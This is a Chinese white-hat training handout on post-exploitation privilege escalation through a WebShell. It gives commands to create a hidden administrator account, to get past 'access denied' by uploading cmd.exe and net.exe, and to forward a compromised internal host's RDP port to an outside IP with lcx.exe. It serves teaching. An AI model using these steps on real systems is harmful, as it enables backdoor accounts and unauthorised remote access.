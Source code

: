```yaml
---
title: "米斯特白帽培训讲义 漏洞篇 提权"
id: csdn53888106
---
```


# 米斯特白帽培训讲义 漏洞篇 提权

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

提权，顾名思义就是提高自己在服务器中的权限，就比如在 Windows 中你本身登录的用户是 guest，通过提权后就变成超级管理员，拥有了管理 Windows 的所有权限。提权是黑客的专业名词，一般用于网站入侵和系统入侵。本讲义所讲的是基于 WebShell 的菜刀管理下提权。

![](../img/623cd392690a870fbf9c9510a418ded5.png)

## 基本 Dos 命令、常识

*   `whoami`：查看当前用户名，用于查看权限大小。
*   `ipconfig`：显示当前 TCP/IP 配置，用于查看 IP。
*   `net user`：查看当前系统的所有用户。
*   `net user <用户名> <用户密码> /add`：创建用户。
*   `net localgroup administrators <用户名> /add`：将用户加入`administrators`用户组。
*   远程连接默认端口：3389。

下面拿菜刀中的 Shell 演示一遍这几个命令。

首先是`whoami`，可以看到`administrator`，应该是管理员。

![](../img/d1618e2bee608158e9d350544ae0bb0c.png)

然后是`ipconfig`，我们可以看到`192.168.175.129`，这是内网的 IP。

![](../img/cc60cbe8cf5eef1619f52610f930052f.png)

然后是`net user`：

![](../img/7fa2973466bd4bda763d31719c91c68d.png)

知道这些用户之后，我们需要创建自己的用户`mst`。创建后再执行`net user`，可以看到创建成功：

![](../img/7daad00082590a65788266600cc60718.png)

接下来我们创建一个名为`mst$`的用户：

![](../img/7f8e8d2b26925561926176935a1befa8.png)

可以看到它并没有显示在用户列表中，之后我们再执行`net user mst$`：

![](../img/0925a71e57706265c633a68788d93f65.png)

它又是确实存在的，这就是隐藏用户的一个小技巧。

之后我们把`mst$`添加到管理员组中，并且查看它的信息，我们发现它成功刚添加到了管理员组中。

![](../img/8fbdb8a114cd0e696b01ba8a82e2bdcc.png)

需要远程连接的时候，输入刚刚创建的用户名和密码就可以了。

## 突破限制

假如说我们在实际情况中看到了`[Err]拒绝访问`：

![](../img/ec56f806890f706330c66e8b94297bb8.png)

那我们可以找到自己电脑上的`cmd.exe`，然后上传上去。比如上传路径如下：

![](../img/4f7413c1674845466a28727e2d2d3e79.png)

我们就可以执行`setp <路径>\cmd.exe`：

![](../img/41b745809d68ac938aa00fffe7132a8e.png)

我们再来看各种命令：

![](../img/50b82d849b6ff3451084a95ec175503b.png)

![](../img/39b79782506a373cdaf627e4c26400a4.png)

`net user`还是拒绝访问的，我们用老方法，找到自己电脑中的`net.exe`，然后传上去。之后执行`<路径>\net.exe user`：

![](../img/0f0999c4711af2e52dfd9e04260d9997.png)

可以看到突破了限制。

## 端口转发

在提权过程中，我们经常碰到这样的情况：

![](../img/fa5104a448e5fe68744cee5e96af530e.png)

我们可以看到 WebShell 的主机处于内网下，内网的意思就是说，它能连接别人，但别人不能连接它，就跟连接路由器的个人电脑差不多。

那么这种情况下，我们就需要用到端口转发工具`lcx.exe`，除此之外，还需要一台拥有外网 IP 的主机。这里我们把内网的主机叫做肉鸡，独立 IP 主机叫做本机。

将`lcx.exe`上传至本机和肉鸡之后，首先确定本机的 IP 为`119.90.140.191`：

![](../img/8be265a2a5def0dda9001f16e19e60cf.png)

然后我们在本机执行：

```
lcx.exe -listen 51 3388
```

![](../img/841c0738b005e3823e9c1b1f05bd64fe.png)

这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```

![](../img/db1bb5351c73cb4a031ddc66fdee4a48.png)

这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。

![](../img/6313c4db2d62af7086dc9f357706967d.png)

远程连接客户端的封包会发给主机的`lcx`，之后会发给肉鸡的`lcx`，之后会发给肉鸡的远程连接服务。响应封包会按原路返回。

等待一会儿之后，我们成功连接了肉鸡的远程桌面：

![](../img/c73e5ce04b16cee72ef739945b3bc874.png)